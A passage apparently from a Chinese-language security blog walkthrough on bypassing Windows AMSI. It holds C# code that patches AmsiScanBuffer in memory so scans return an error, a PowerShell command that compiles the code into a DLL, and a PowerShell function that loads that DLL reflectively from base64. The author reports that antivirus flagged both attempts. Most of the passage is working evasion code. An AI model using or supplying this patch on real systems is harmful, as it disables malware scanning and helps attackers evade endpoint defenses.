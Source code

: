 ```plain

            UIntPtr dwSize = (UIntPtr)5;
            uint Zero = 0;
            if (!VirtualProtect(AmsiScanBufferPtr, dwSize, 0x40, out Zero))
            {
                Console.WriteLine("ERROR: Could not change AmsiScanBuffer memory permissions!");
                return 1;
            }


    Byte[] Patch = { 0xB8, 0x57, 0x00, 0x07, 0x80, 0xC3 };
    IntPtr unmanagedPointer = Marshal.AllocHGlobal(6);
    Marshal.Copy(Patch, 0, unmanagedPointer, 6);
    MoveMemory(AmsiScanBufferPtr ,unmanagedPointer, 6);


            Console.WriteLine("AmsiScanBuffer patch has been applied.");
            return 0;
        }
    }
}
```

c#这段码的功能就是在`AmsiScanBuffer`的函数地址处直接打补丁，补丁汇编是(推荐汇编转16进制网站[Online x86 and x64 Intel Instruction Assembler (defuse.ca)](https://defuse.ca/online-x86-assembler.htm#disassembly))：

```plain
mov eax,0x80070057
ret
```

我们将代码直接保存为source.cs，然后用ps去编译，命令如下：

```plain
Add-Type -TypeDefinition ([IO.File]::ReadAllText("$pwd\Source.cs")) -ReferencedAssemblies "System.Windows.Forms" -OutputAssembly "Bypass-AMSI.dll"
```

[![](assets/1709530518-07f0aa3419186fadc5728fb628a6363b.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240303102107-b125f57e-d904-1.png)

报毒，我们然后我们把dll文件进行base64编码（Kali下，直接使用base64 -i 文件名，就可以得到base64编码），然后使用powershell进行武器化，反射加载，也是直接被秒

```plain
unction Bypass-AMSI
{
    if(-not ([System.Management.Automation.PSTypeName]"Bypass.AMSI").Type) {
        [Reflection.Assembly]::Load([Convert]::FromBase64String("你的base64编码")) | Out-Null
        Write-Output "DLL has been reflected";
    }
    [Bypass.AMSI]::Disable()
}
```
